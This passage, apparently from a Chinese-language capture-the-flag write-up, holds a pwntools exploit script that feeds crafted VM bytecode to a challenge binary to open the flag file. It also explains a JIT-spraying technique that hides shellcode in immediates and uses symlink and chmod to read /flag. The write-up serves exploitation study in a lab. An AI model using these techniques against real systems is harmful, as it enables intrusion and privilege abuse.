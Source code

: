 ```python

    b'\{imm}\{a}\x02', # imm a, 0x02
    b'\{imm}\{b}\x6c', # imm b, 0x6c
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x03', # imm a, 0x03
    b'\{imm}\{b}\x61', # imm b, 0x61
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x04', # imm a, 0x04
    b'\{imm}\{b}\x67', # imm b, 0x67
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x00', # imm a, 0x00
    b'\{imm}\{b}\x00', # imm b, 0x00
    b'\{imm}\{c}\x50', # imm c, 0x50
    b'\{sys}\{open}\{a}', # open ---> return a

]

payload_2 = b''.join(format_data_list(a=0x20,b=0x4,c=0x10,read=0x20,write=0x10,open_=0x31,stm=0x1,imm=0x10, sys=0x8))
with open("/home/hacker/exploit/level10/bin_2", 'wb') as file:
    file.write(payload_2)


def redirect_fd():
    # os.dup2(1, 3)  # 将文件描述符 3 重定向到标准输出 (fd 1)
    # os.dup2(3, 0x39)  # 将文件描述符 3 重定向到标准输出 (fd 1)
    os.dup2(1, 0x39)  # 将文件描述符 3 重定向到标准输出 (fd 1)


p = process("/challenge/toddlerone_level10.1", preexec_fn=redirect_fd)
# 明确重定向文件描述符
p.send(payload_2)
p.interactive()

```

## level 11

这一关是Just In time（JIT），会将你的输入的二进制指令翻译为机器码执行，跟高级脚本语言的设计是一样的。规定了代码段、数据段。

但是可以通过短跳转的方式，跳转到原始指令的中间部分，这样可以通过可以操作的立即数部分，来自定义shellcode部分。

跳转到指令中间部分以后，还可以继续利用 `jmp`指令，进行短跳转到下一个原始指令的中间部分。这样就可以实现连续的控制流。

在shellcode的编写方面，还是借鉴了之前 `shellcode`关卡的部分，还是利用创建符号连接，然后使用 `chmod`系统调用修改 `/flag`文件权限获取 `flag`文件。

```python
from pwn import *

"""
/flag  ---> 2f 66 6c 61 67

imm 0x8
stm 0x20
sys 0x4

op      arg1        arg2
        register    value
        syscall   

a   0x20
b   0x1
```